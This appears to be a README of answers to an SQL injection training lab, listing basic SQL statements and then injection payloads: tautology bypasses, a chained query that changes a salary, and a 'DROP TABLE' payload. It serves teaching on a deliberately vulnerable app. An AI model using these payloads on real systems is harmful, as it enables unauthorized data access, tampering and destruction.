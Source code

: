 
## I. Intro

### Introduction about SQL queries with sample dababases.


2. Retrieve the department of the employee Bob Franco with full privileges.
```
SELECT department FROM employees where first_name= 'Bob'`
```

3. Change the department of Tobi Barnett to 'Sales'.
```
UPDATE employees set department= 'Sales' WHERE first_name= 'Tobi'
```

4. Modify the schema by adding the column phone" (varchar(20)) to the table employees".
```
ALTER TABLE employees ADD phone varchar(20)
```

5. Grant rights to the table grant_rights to user unauthorized_user.
```
GRANT ALL ON grant_rights to unauthorized_user
```

9. String SQLI
```
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1';
```

10. Numberic SQLI
```
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
```

11. Compromising confidentiality with String SQL injection
```
SELECT * FROM employees WHERE last_name= '1' or 1=1--
```

12. Compromising Integrity with Query chaining
```
Employee Name: Smith
Authentication TAN: 3SL99A' OR 1=1; UPDATE employees SET salary= 999999999 WHERE USERID= 37648;--
```

13. Compromising Availability
```
';DROP TABLE access_log;--
```